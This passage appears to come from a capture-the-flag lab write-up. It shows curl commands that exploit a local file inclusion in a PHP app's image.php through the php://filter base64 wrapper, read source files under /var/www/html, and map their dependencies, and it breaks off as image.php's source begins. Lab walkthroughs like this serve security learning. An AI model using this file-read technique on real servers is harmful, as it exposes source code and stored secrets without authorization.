 Remember we say a file index.php, let's retrieve it:
```bash
❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/index.php"
```
But it's content only reveals `header.php`. Next, try to access to the other 302 redirects from wfuzz:
- `/var/www/html/upload.php`:
    ```bash
    ❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/upload.php"
    ```
    - Dependencies: `admin_auth_check.php`
    - Uploads directory: `images/uploads`
- `/var/www/html/profile.php`:
    ```bash
    ❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/profile.php"
    ```
    - Dependencies: `header.php`, `db_conn.php`, `js/profile.js`
- `/var/www/html/admin_auth_check.php`:
    ```bash
    ❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/admin_auth_check.php"
    ```
    - Dependencies: `auth_check.php`
    - Redirection: `/var/www/html/index.php`
- `/var/www/html/js/profile.js`:
    ```bash
    ❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/js/profile.js"
    ```
    - POST requests: `/var/www/html/profile_update.php`
- `/var/www/html/profile_update.php`:
    ```bash
    ❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/profile_update.php"
    ```
    - Dependencies: `auth_check`
- `/var/www/html/auth_check.php`:
    ```bash
    ❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/auth_check.php"
    ```
    - Redirection: `/var/www/html/login.php`
- `/var/www/html/image.php`:
    ```bash
    ❯ curl "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/image.php"
    ```
    - Decoded source code:
    ```bash
        ❯ cat Results/image.php
        ───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
            │ File: Results/image.php
            │ Size: 507 B
        ───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
        1   │ <?php
        2   │ 
        3   │ function is_safe_include($text)
        4   │ {